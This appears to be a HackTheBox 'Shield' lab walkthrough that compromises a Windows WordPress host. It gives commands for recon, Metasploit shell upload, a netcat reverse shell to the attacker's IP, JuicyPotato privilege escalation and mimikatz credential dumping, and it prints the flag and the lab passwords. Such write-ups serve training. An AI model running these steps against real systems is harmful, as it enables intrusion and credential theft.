# Shield

## Recon 

- nmap 

```
# nmap -sV -O 10.10.10.29

```




- gobuster parse the web (enumeration the path)

```
# gobuster dirb -u http://10.10.10.29 -w /usr/share/wordlists/dirb/common.txt
```



- Find a path : wordpress 
- we can know there is a wordpress web page on it .



- Browse it 



- Since The WordPress is a blog framework, many blogger will use it to create a simple web page 
- And there are many vulnerability on it.
- We also know the WordPress has design a admin page for blogger to manage there web page which path is /wp-admin
- Try to browse to ```http://10.10.10.29/wordpress/wp-admin``` and it will redirect to ``` http://10.10.10.29/wordpress/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&reauth=1 ```



- Now the mission is find the password to login to wordpress management console 

- From previous challenge, we find the credential 

```
admin / P@s5w0rd!
```

- Success login 




## Get Shell 

### First Method

- Using the management page to change the php file 
- Appearance > Theme Editor > Twenty Seventeen > 404 Template(404.php)








### Metasploit to get meterpreter

- Find wp_admin_shellupload 
```
# search wp_admin
```



- Check the necessary information 

```
# show options 
```



- set information 
```
# set LHOST <my_ipaddress>
# set PASSWORD P@s5w0rd!
# set RHOSTS 10.10.10.29
# set USERNAME admin
# set TARGETURI /wordpress
```





### Upload the nc to victim server 

- Download the nc executable file 
- [nc executable file](https://github.com/int0x33/nc.exe)
```
# git clone https://github.com/int0x33/nc.exe.git
```


- In meterpreter, change directory on attacker's machine
```
# lcd <target directory on attack machine>
# lcd /home/kali/Desktop/HTB/nc.exe/
```
- Change directory on victim's machine
```
# cd <target directory on victim machine>
# cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
```
- upload nc executable file to remote victim server
```
# upload nc64.exe
```



- Check the uploads directory content 



- Execute the nc on attack machine to listen port 1234
```
# nc -lvnp 1234
```



- In meterpreter, execute the nc file on victim server to connect to the attack's nc 



- The nc on attack machine has been connected from victim then  Check systeminfo 
```
# systeminfo 
```




## Privileged Escalation 
### Juicy Potato

- [juicy potato](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)




- Juicy Potato is a variant of the exploit that allows service accounts on Windows to escalate to SYSTEM (highest privileges) by leveraging the BITS and the SeAssignPrimaryToken or SeImpersonate privilege in a MiTM attack.
- We can exploit this by uploading the Juicy Potato binary and executing it.

### Upload Juicy Potato 

- Using the same step to upload Juicy Potato to victim's machine.
- In attacker's machine, change the juicy-potato's name 
```
# mv JuicyPotato.exe JP.exe
```
- In meterpreter, change directory on attacker's machine
```
# lcd /home/kali/Desktop/HTB/
```
- Change directory on victim's machine
```
# cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
```
- 
- upload nc executable file to remote victim server
```
# upload JP.exe
```

### Create Privilege Shell 

- Create a batch file that will be executed by the exploit(JuicyPotato), and return a SYSTEM shell. 
```
# echo START <victim's nc file location> -e powershell.exe <attacker ip> <attacker port> > <batch file>

# echo START C:/inetpub/wwwroot/wordpress/wp-content/uploads/nc.exe -e powershell.exe 10.10.14.150 1111 > shell.bat
```


- Create another nc listener on attack machine

```
# nc -lvnp 1111
```


- Juicy Potato execute the batch to create PS shell (system permisson )

```
# JP.exe -t * -p C:/inetpub/wwwroot/wordpress/wp-content/uploads/Shell.bat -l 1337
```




### Find Flag 

- From PS shell, find Flag 
```
Location: C:\Users\Administrator\Desktop\root.txt 
```



- Get flag : 6e9a9fdc6f64e410a68b847bb4b404fa

## Post Exploitation 

### Upload mimikaz

- [mimikatz](https://github.com/sebastiendamaye/hackthebox/raw/master/01-starting_point/04-Shield/files/mimikatz.exe)

- Upload mimikatz by the same step before
- In meterpreter, change directory on attacker's machine
```
# lcd /home/kali/Desktop/HTB/
```
- Change directory on victim's machine
```
# cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
``` 
- upload nc executable file to remote victim server
```
# upload mimikatz.exe
```

### Using mimikatz to crack logonpassword

```
#./mimikatz
```



```
# selurlsa::logonpasswords
```




- get another credential 

```
sandra / Password1234!
```


### Recon 2 - Find WordPress Version 

#### Ref 
- [Version Check](https://www.wpbeginner.com/beginners-guide/how-to-easily-check-which-wordpress-version-you-are-using/)

1. Check The Page Source 
2. Find the string - "generator"
3. The WordPress version will display on the value of generator in meta tag






## Reference 

- [Write up 1](https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Shield)
- [Write up 2](https://www.linkedin.com/pulse/hack-box-shield-nathan-barnes/)
- [netcat](https://github.com/int0x33/nc.exe)
- [Juicy Potato](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)
- [Juicy Potato Usage](https://github.com/ohpe/juicy-potato/tree/v0.1)
- [mimikatz](https://github.com/sebastiendamaye/hackthebox/raw/master/01-starting_point/04-Shield/files/mimikatz.exe)


###### tags: `HackTheBox` `Windows`